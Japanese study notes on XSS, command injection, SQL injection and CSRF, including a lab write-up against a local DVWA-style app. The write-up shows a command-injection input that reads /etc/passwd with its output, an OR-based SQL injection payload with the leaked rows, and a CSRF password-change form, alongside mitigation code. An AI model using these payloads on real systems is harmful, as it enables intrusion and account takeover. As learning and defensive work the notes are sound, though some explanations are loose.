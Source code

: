 ## 課題1

### xss

- 仕組み

何かの投稿サイトなどで、悪意のある投稿をする。
その投稿に、javascriptを埋め込み、別ページへ遷移させて、
偽のページへリンクさせる。
偽ページでcookieを送信させて、そこに、session_idが入っていた場合、
悪意のあるユーザーにログインされるかも

- 被害

なりすましに利用をさえてしまう。

- 対処法

<」、「&」などは文字列として出力される様にする

※参考サイト

https://www.shadan-kun.com/blog/measure/1052/#:~:text=%E3%82%AF%E3%83%AD%E3%82%B9%E3%82%B5%E3%82%A4%E3%83%88%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%97%E3%83%86%E3%82%A3%E3%83%B3%E3%82%B0%EF%BC%88XSS%EF%BC%89%E3%81%A8%E3%81%AF%E3%80%81%E6%8E%B2%E7%A4%BA%E6%9D%BF%E3%82%B5%E3%82%A4%E3%83%88%E3%82%84,%E3%81%AE%E7%BD%A0%E3%82%92%E4%BB%95%E6%8E%9B%E3%81%91%E3%81%BE%E3%81%99%E3%80%82

### コマンドインジェクション

- 仕組み

検索画面などで、OSコマンドを実行する
ex）;や|の後に、OSコマンドを実行できるので、いろんな情報を閲覧できる。

- 被害

ログの中身もみれるので、
例えば決済ログなどにも個人情報が含まれていそう

- 対処

;や|などのsqlを実行できてしまうモノをエスケープする

### SQLインジェクション

検索画面などで、SQLコマンドを実行する

パターンは大きく3つで、
コメントアウト、サブクエリ、セミコロンで、SQL文を連結できるらしい

※youtube
https://www.youtube.com/watch?v=Lqo-K5fhvQ4

- 被害

管理者ユーザーなどでログインできる為個人情報などが抜き取られる可能性がある

- 対処

プレースホルダーを設定すると不正な値が文字列と認識されて大丈夫らしいです

※なんかphpが脆弱性の例で使われてますね。
 railsだと、そんな心配いらないのにみたいな感じです

### 解説動画

※youtube（分かりやすかったです！）

https://www.youtube.com/watch?v=SPIiVKXB818

### CSRF

- 仕組み

何かの投稿サイトなどで、悪意のある投稿をする。
その投稿に、javascriptを埋め込み、別ページへ遷移させて、
偽のページへリンクさせる。

その偽サイトから、本物サイトに実行リクエストを送れてしまう

- 被害

第三者が、自分のアカウントで、特定の処理を実行してしまう事

- 対処

tokenををリクエストに求める

例えば、
投稿作成画面 => 確認画面 => 投稿POSTリクエストのフローで、
各ステップでtokenをもたせておく事により、下記の様に
偽サイトからはtokenがないので、不正なPOSTリクエストが実行できなくなる
投稿作成画面 => 偽サイト => 投稿POSTリクエスト

### xssとcsrfの違い

※理解しやすい
https://qiita.com/wanko5296/items/142b5b82485b0196a2da


## 課題2

1. XSSとCSRFの違いはなんでしょうか？

<details>
  <summary>
    解答
  </summary>
  正直明確には解答できないでの、下記の記事を参照ください！

  ※参考記事
  https://qiita.com/wanko5296/items/142b5b82485b0196a2da#xss%E3%81%A8csrf%E3%81%AE%E9%81%95%E3%81%84　　


  被害になるトリガーは同じですが、目的は事なるのが大きな違いなのかな？とも思いました。
  XSSはなりすまし目的
  CSRFは利用者の意図しないWebアプリケーション上の処理実行目的
</details>

## 課題3

### コマンドラインインジェクション

```
;  ls ../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

### sql インジェクション

http://localhost/vulnerabilities/sqli/

```
aa'or'a'='a

ID: aa'or'a'='a
First name: admin
Surname: admin
ID: aa'or'a'='a
First name: Gordon
Surname: Brown
ID: aa'or'a'='a
First name: Hack
Surname: Me
ID: aa'or'a'='a
First name: Pablo
Surname: Picasso
ID: aa'or'a'='a
First name: Bob
Surname: Smith
```

- 対策

エスケープするのだと思う

### CSRF

1.下記のようなhtmlを作成する

※actionを指定

```
<form action="http://localhost/vulnerabilities/csrf" method="GET">
    New password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    Confirm new password:<br />
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    <br />
    <input type="submit" value="Change" name="Change">

</form>

```

2.passeordをadminに変更

3.パスワード変更のページへ移動した


- 対策コード

```
## before そのまま受け取っている
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];

## after
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

```


### XSS

cookieなどを値を送る事はできなかったのですが、scriptタグは実行できました。（alertメソッド）

こちらではscriptが文字列になる事を確認
https://blog1127.herokuapp.com/blogs/4

※参考
https://qiita.com/KPenguin/items/783caef6a43e594ed7cd

- 対策コード

コードをみると

下記のところでエスケープが上手くできていない様子で、特定の文字はエスケープする

```
## セキュリティ Lowの場合
 $name = mysql_real_escape_string( $name );

## セキュリティ hightの場合
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = mysql_real_escape_string( $name );

```